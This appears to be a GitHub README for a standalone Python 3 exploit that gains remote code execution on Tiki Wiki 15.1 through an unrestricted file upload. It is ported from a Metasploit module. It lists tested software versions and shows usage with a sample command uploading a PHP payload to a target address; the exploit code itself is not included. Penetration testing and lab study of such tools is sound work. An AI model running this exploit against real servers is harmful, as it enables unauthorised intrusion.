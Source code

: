 # Tiki Wiki 15.1 unrestricted file upload exploit
Standalone Python 3 RCE exploit for Tiki Wiki 15.1 based on the [Metasploit module](https://www.exploit-db.com/exploits/40091)
This is a rewrite of the Metasploit module in Python, to be used outside Metasploit.

Tested with Python 3.7 on Tiki Wiki 15.1 running on
* mysql 5.5.50
* php 5.6.40
* Ubuntu Server 16.04.6 LTS

## Usage
```
root@Kali:~/# python3 tikiwiki_15.1_RCE.py -h
usage: tikiwiki_15.1_RCE.py [-h] -U URL -P PHP

Required arguments:
  -U URL, --url URL  URL of the Tiki Wiki page eg.
                     http://webserver.com/tikiwiki
  -P PHP, --php PHP  Path to php payload eg. payload.php
root@Kali:~/# python3 tikiwiki_15.1_RCE --url 'http://192.168.92.151/tiki' --php payload.php
```
